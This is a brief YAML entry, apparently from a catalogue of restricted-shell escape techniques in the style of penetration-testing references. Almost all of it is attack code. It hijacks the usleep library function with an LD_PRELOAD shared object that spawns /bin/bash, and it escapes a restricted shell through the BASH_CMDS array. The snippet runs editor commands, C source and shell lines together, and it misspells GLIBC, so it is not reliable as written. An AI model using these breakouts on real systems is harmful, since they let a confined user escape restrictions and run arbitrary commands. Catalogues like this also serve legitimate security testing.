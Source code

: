 ```yaml
---
functions:
  shell:
    - description: Search binaries with ``echo *``, get ``objdump -T binary | grep GLIC`` and make a script to replace one of the functions (example with usleep).
      code: |
        vim script.c
        #include <stdio.h>
        #include <stdlib.h>
        void usleep() {
          unsetenv("LD_PRELOAD");
          system("echo ok! && /bin/bash");
          exit(0);
        }
        gcc -shared script.c -o script
        declare -x LD_PRELOAD=/path/to/script
    - description: Note: This was fixed in bash 4.4
      code: |
        BASH_CMDS[gtfo]=/bin/bash; gtfo
---
```

